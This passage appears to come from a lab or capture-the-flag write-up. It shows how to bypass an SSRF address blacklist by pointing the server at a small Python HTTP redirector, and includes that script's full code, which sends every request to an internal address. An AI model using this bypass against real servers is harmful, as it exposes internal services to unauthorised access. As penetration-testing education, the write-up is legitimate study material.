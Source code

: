 ### SSRF

We can get around the address blacklist by redirecting the initial request back to our intended address. we can do this with a python script that listens for requests from the server and sends back a redirect.

```python
#!/usr/bin/env python3

# https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/url-format-bypass#bypass-via-redirect
# python3 ./redirector.py 8000 http://127.0.0.1/

import sys
from http.server import HTTPServer, BaseHTTPRequestHandler

if len(sys.argv)-1 != 2:
    print("Usage: {} <port_number> <url>".format(sys.argv[0]))
    sys.exit()

class Redirect(BaseHTTPRequestHandler):
   def do_GET(self):
       self.send_response(302)
       self.send_header('Location', sys.argv[2])
       self.end_headers()

HTTPServer(("", int(sys.argv[1])), Redirect).serve_forever()
```

When we send the redirect request, we can give it blacklisted urls and they will be accepted. Navigating to the generated link in the browser will warn us that the image is corrupt, but we can still see the contents of the request in Burpsuite

![Successful ssrf attack](./images/website/admin/homepage_html_via_ssrf_redirect.png)

## Shell as user
